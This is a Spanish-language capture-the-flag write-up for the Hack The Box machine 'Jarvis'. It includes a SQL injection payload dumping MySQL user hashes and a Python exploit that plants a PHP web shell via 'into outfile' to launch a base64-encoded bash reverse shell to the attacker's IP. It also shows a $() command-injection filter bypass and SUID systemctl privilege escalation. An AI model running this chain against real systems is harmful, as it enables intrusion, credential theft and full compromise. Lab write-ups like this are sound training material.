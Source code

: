 ```yaml
---
title : Máquina|Jarvis|HTB|SQL|SUID
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/Jarvis/Jarvis0.png" style="border-radius: 190px; width: 169px" alt="Jarvis">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Media </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/194" style="color: lightblue;">Jarvis</a></p>
    </div>
</div>

<h2><font color="white"><center># Jarvis</center></font></h2>
<br>


* <p>Vemos que es una maquina Linux a lo que nos enfrentamos por el TTL.</p>

<img src="imgs/Jarvis/Jarvis1.png">

* <p> Empezamos enumerando los puertos del servidor.</p>

<img src="imgs/Jarvis/Jarvis2.png">

* <p> Ahora procedemos a enumerar las tecnologías.</p>

<img src="imgs/Jarvis/Jarvis3.png">

* <p> Enumeramos directorios y archivos activos de la pagina web.</p>

<img src="imgs/Jarvis/Jarvis4.png">
>

* <p> Observamos el phpmyadmin y probamos credenciales por defecto.</p>

<img src="imgs/Jarvis/Jarvis5.png">

* <p> Al estar enumerando la pagina mire que era susceptible a un ataque de inyección sql.</p>

<img src="imgs/Jarvis/Jarvis6.png">
>
`union select 1,2,group_concat(User,0x3a,Password),4,5,6,7 from mysql.user-- -`

* <p> Desciframos el hash MySQL 4.1, y sacamos como resultado la credencial: imissyou</p>

<img src="imgs/Jarvis/Jarvis7.png">


* <p> Procedemos a conectarnos en el panel previamente descubierto anteriormente.</p>

<img src="imgs/Jarvis/Jarvis8.png">

* <p> Procedemos a ver en searchsploit si hay exploits dedicados a esta version de phpmyadmin 4.8.0, vemos que puede ser susceptible a LFI.</p>

<img src="imgs/Jarvis/Jarvis9.png">
* <p> Vemos la posterior ruta en la que este exploit acude para poder tener un LFI y observamos la siguiente url</p>

<img src="imgs/Jarvis/Jarvis10.png">

* <p> Alistamos el /etc/passwd y vemos que si es vulnerable a un LFI</p>

<img src="imgs/Jarvis/Jarvis11.png">

* <p>No vemos nada relevante asi que procedemos a cargar un archivo por medio de la inyección SQL en la pagina web </p>

<img src="imgs/Jarvis/Jarvis12.png">

* <p>Vemos que nos interpreta el código.</p>

<img src="imgs/Jarvis/Jarvis13.png">

* <p>Posteriormente nos creamos un "exploit" para que nos automatice todo, lo que hace es codificar en base64 una reverse Shell, lanza la petición para que se aloje en el directorio 10.10.10.143/rem.php para posteriormente lanza otra petición a ese directorio del sistema mientras nos ponemos en escucha por el puerto 5550.</p>

```python
#!/usr/bin/python3
import requests
import sys
import signal
import time
import threading
from pwn import *

def salida(sig, frame):
	print("saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, salida)

#Cree su propia Shell base64 : echo "/bin/bash -i >& /dev/tcp/IP/5550 0>&1" | base64 
base64 = "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjIvNTU1MCAwPiYxCg=="
port = 5550
url_ = "http://10.10.10.143"
file = "rem.php"

create_file = "http://10.10.10.143/room.php?cod=10%20union%20select%201,2,%22%3C?php%20system(%27echo%20{base64}%20|base64%20-d%20|bash%20%27);?%3E%22,4,5,6,7%20into%20outfile%20%22/var/www/html/{file}%22--%20-"
def pwned_shell():
    get_file = requests.get(create_file)
    get_shell = requests.get(f"{url_}/{file}")

try:
    threading.Thread(target=pwned_shell, args=()).start()
except Exception as e:
    log.error(str(e))

server = listen(port, timeout=20).wait_for_connection()
server.interactive()

```

* exploit.py

<img src="imgs/Jarvis/Jarvis15.png">

* <p> Procedemos a ejecutar el exploit. </p>


<video controls style="width: 100%; max-width: 700px; border-radius: 12px; margin: 0 auto; display: block;">
  <source src="imgs/Jarvis/video.mp4" type="video/mp4">
  Tu navegador no soporta la reproducción de video.
</video>


* <p> Como quiero crearme una full tty no usare este exploit, sino que me pondré en escucha no netcat por el puerto 5550 y ejecuto el script.</p>

<img src="imgs/Jarvis/Jarvis16.png">

* <p> Procedemos cone el tratemiento de la Shell para tener una full tty.</p>

<img src="imgs/Jarvis/Jarvis18.png">
<img src="imgs/Jarvis/Jarvis19.png">
<img src="imgs/Jarvis/Jarvis21.png">

* <p>En este punto podríamos ver la flag de jarvis.</p>

<img src="imgs/Jarvis/Jarvis35.png">

* <p>Vemos que tenemos permiso para ejecutar un archivo en python siendo el usuario pepper.</p>

<img src="imgs/Jarvis/Jarvis36.png">

* <p>EL archivo python no esta del todo bien sanitizado. no me permite ejecutar ['&', ';', '-', '`', '||', '|'] pero no necesariamente tengo que usar estos caracteres para inyectar comandos y escalar privilegios, que paso si ahora ejecuto </p>

<img src="imgs/Jarvis/Jarvis22.png">

* <p>Vemos que al inyectar en el campo un $(echo "2"),recibimos la traza ICMP a mi interfaz 10.10.16.2 tun0.</p>

<img src="imgs/Jarvis/Jarvis23.png">

* <p>Si me hago una reverse Shell no podría ganar acceso al sistema por que no me permite el &, entonces para hacerle un Bypass a esta solicitud me creo un archivo temporal, en este almacenare la reverse Shell:</p>

<img src="imgs/Jarvis/Jarvis25.png">

* <p>Posterior mente me ejecuto el archivo. y ganamos acceso al sistema siendo pepper.</p>

<img src="imgs/Jarvis/Jarvis26.png">

* <p>Hacemos la Shell una full tty</p>

<img src="imgs/Jarvis/Jarvis27.png">

* <p>Ajustamos las filas y columnas.</p>

<img src="imgs/Jarvis/Jarvis30.png">

* <p>Vemos que tiene permisos SUID a systemctl lo que hace vulnerable, podemos crearnos una tarea siendo root.</p>

<img src="imgs/Jarvis/Jarvis31.png">

* <p>Estructura básica de una tarea systemctl</p>

```ruby
[Unit]
Description=Descripción del servicio
After=network.target

[Service]
Type=oneshot
ExecStart=/ruta/a/tu/programa

[Install]
WantedBy=multi-user.target
```

* <p>Configuramos los archivos y ganamos posteriormente acceso al sistema</p>

<img src="imgs/Jarvis/Jarvis33.png">

* <p>Posteriormente podemos ver la flag de root.</p>

<img src="imgs/Jarvis/Jarvis34.png">